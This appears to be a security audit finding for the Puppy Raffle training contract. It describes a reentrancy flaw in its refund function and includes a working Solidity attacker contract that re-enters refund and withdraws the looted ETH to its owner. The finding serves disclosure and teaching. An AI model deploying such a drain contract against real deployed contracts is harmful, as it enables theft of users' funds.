 ### Relevant GitHub Links
	
https://github.com/Cyfrin/2023-10-Puppy-Raffle/blob/main/src/PuppyRaffle.sol#L96

## Summary
The PuppyRaffle contract is susceptible to a reentrancy attack, and Attacker can repeatedly invoke the ```refund``` function before the players array is updated. Thus attacker can repeatedly call the refund function and drain all the funds.

## Vulnerability Details
The contract's ```refund``` function does not follow the CEI (Checks Effects Interactions) pattern. The contract updates the players array state after the funds are sent to user. Attacker can take the advantage of this external function call to again invoke the ```refund``` function and as the state (players array) is not updated, attacker can repeatedly invoke the ```refund``` function through the external call.

## PoC
### AttackPuppyRaffle.sol      (src/attack/AttackPuppyRaffle.sol)
```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.7.6;

import { PuppyRaffle } from "../PuppyRaffle.sol";

contract AttackPuppyRaffle {
    uint256 public idx;
    PuppyRaffle public puppyRaffle;

    address public owner;

    constructor(address raffle) {
        puppyRaffle = PuppyRaffle(raffle);
        owner = msg.sender;
    }

    function refundAttack(uint256 _idx) external {
        idx = _idx;
        puppyRaffle.refund(_idx);
    }

    function withdrawLootedEth() external {
        require(msg.sender == owner);

        (bool success,) = payable(msg.sender).call{value: address(this).balance}("");
        require(success);
    }

    receive() external payable {
        try puppyRaffle.refund(idx) {

        }
        catch {

        }
    }
}
```
